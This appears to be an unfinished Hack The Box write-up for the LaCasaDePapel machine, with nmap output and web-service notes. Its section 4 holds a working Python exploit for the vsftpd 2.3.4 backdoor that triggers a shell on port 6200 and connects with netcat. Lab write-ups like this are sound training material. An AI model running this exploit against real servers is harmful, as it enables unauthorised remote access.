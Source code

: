 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: htb/lacasadepapel/lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Summary

Fill out later

## 1. discovery - network service scanning - nmap

```bash
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![discovery_http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2-http.png)

 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![discovery_https](https://mrjak3.github.io/assets/img/3_https.png)

## 4. initial access - exploit public facing application - vsftp

 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```bash
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.
 4.4 Running the script:

 ![exploit_vsftp](https://mrjak3.github.io/assets/img/4.4-vsftp.png)

## 5. Psy shell

5.1 Lets try executing system commands using the `cmd` operator
